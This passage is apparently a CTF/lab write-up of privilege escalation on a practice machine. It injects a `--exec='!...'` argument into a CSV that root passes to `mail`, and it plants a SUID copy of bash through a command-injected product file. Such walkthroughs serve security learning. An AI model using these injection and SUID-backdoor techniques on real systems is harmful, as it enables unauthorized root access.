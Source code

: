 Now with www-data shell, we run pspy to monitor root process and trigger the file.
```
./pspy64

echo 'test' >> /var/www/private/leave_requests.csv
```

We got this on pspy:
```
mail -s Leave Request: test christine
```

Checking GTFOBins, mail can execute commands with `--exec='!/bin/sh'

So we can put a reverse shell on the file and get it.
```
echo \" --exec=\'\!/dev/shm/shell.sh\' >> /var/www/private/leave_requests.csv

# Or directly edit the file
" --exec='!/dev/shm/shell.sh'
```

For some reason pspy doesn't show some quotes, so we need to start with ". The original command is `mail -s "Leave Request: "$name christine`

<br>

#### Extra
You suppose to get root by creating a new product in the machine with command injection inside it and doing a request with it.

Creating a script to be called that set SUID on bash binary.
```
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchmod 4777 /tmp/0xdf' > /dev/shm/0xdf.sh

chmod +x /dev/shm/0xdf.sh

cat /dev/shm/0xdf.sh

#!/bin/bash
cp /bin/bash /tmp/0xdf
chmod 4777 /tmp/0xdf
```

Creating product inside /var/www/store/product-details.
```
echo '0xdf --exec="!/dev/shm/0xdf.sh"' >> 223.txt
```

Calling it.
```
item=223&user=0559-c1cd-524-cfcf&action=add_item

/tmp/0xdf -p
```
